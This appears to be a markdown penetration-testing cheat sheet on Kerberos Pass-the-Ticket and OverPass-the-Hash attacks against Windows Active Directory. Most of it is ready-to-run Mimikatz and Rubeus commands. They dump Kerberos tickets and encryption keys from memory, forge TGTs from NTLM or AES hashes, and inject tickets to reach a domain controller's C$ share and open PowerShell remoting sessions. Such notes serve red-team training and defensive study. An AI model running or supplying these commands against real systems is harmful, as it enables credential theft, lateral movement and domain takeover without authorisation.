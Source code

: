 # Pass the Ticket Windows

## Harvesting Kerberos tickets from Windows

### [Mimikatz](https://github.com/ParrotSec/mimikatz) - Export tickets

Harvest all tickets from a system. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd
privilege::debug
sekurlsa::tickets /export
```

> The tickets that end with `$` correspond to the computer  account, which needs a ticket to interact with the Active Directory.  User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

### [Rubeus](https://github.com/GhostPack/Rubeus) - Export tickets

Export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (run as local administrator).

```cmd
# Tickets dumped will be in Base64
Rubeus.exe dump /nowrap
```

---

## Pass the Key aka. OverPass the Hash

[Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

### Mimikatz - Extract Kerberos keys

Forging tickets the users hash is needed; use mimikatz to dump encrytion keys

```cmd
mimikatz # privilege::debug
sekurlsa::ekeys
```

### Mimikatz

With the `AES256_HMAC` and `RC4_HMAC` keys, perform the OverPass the Hash.

```cmd
# This will create a new cmd.exe window 
sekurlsa::pth /domain:example.com /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
exit
```

### Rubeus

Forge a ticket using `Rubeus`, use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. 

```cmd
Rubeus.exe asktgt /domain:example.com /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
exit
dir \\DC01.example.com\c$
```

> Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

---

## Pass the Ticket

### Rubeus

With some Kerberos tickets, use them to move laterally within an environment.

```cmd
# Standard method
Rubeus.exe asktgt /domain:example.com /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# With mimikatz ticket
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi
exit
```

> Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Base64 Format

```cmd
# Convert the ticket
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi"))

# Pass the ticket
Rubeus.exe ptt /ticket:<ticket>
exit
dir \\DC01.example.com\c$
```

### Mimikatz

```cmd
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-example.com.kirbi"
exit
dir \\DC01.example.com\c$
```

> Use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

---

## PowerShell Remoting with Pass the Ticket

### Mimikatz

Use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Open `cmd.exe` and execute `mimikatz.exe`, import the ticket collected using `kerberos::ptt`. Once the ticket is imported into the `cmd.exe` session, launch a PowerShell from the same `cmd.exe` and use the command `Enter-PSSession` to connect to the target machine.

```cmd
# Import
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-example.com.kirbi"

# Launch PS and connect
powershell
Enter-PSSession -ComputerName DC01
```

### Rubeus

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). Request a new TGT with the option `/ptt`

```cmd
# Open new cmd window
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Import tick for lateral movement
Rubeus.exe asktgt /user:john /domain:example.com /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

powershell
Enter-PSSession -ComputerName DC01
```
